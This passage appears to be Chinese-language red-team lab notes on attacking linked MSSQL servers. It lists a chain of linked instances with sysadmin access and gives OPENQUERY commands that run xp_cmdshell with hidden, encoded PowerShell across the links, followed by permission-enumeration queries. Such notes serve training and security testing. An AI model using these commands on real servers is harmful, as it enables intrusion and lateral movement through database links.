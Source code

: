 Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

留意上面的实例链：```SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL```

2. 执行系统shell

在```sql-1.cyberbotic.io```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''' )
```

在```sql01.zeropointsecurity.local```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''' '')' )
```

# hacktricks里的技巧

# Get Permissions


## Show all different securables names
```
SELECT distinct class_desc FROM sys.fn_builtin_permissions(DEFAULT);
```
## Show all possible permissions in MSSQL
```
SELECT * FROM sys.fn_builtin_permissions(DEFAULT);
```

## Get all my permissions over securable type SERVER
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

## Get all my permissions over a database
```
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
```
```